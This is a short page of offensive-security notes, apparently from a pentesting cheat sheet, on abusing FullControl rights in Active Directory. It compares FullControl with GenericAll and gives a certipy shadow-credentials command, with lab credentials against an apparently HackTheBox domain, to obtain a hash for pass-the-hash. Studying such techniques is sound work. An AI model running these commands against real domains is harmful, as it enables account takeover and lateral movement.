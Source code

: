 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FullControl

## Information

`Full Control` typically refers to the highest level of permissions granted on an object in AD. It allows the user or group to perform all actions on the object, including creating, deleting, modifying, and changing permissions.&#x20;

### GenericAll vs. FullControl

`GenericAll` is more comprehensive in its scope, encompassing all objects in the directory, whereas `Full Control` typically applies to specific objects and allows complete control over them.

## Exploitation

### Password Change

Check how [here](forcechangepassword.md).

### Shadow Credential

Get the object's hash and perform a PtH attack.

{% code overflow="wrap" %}
```bash
certipy shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
```
{% endcode %}
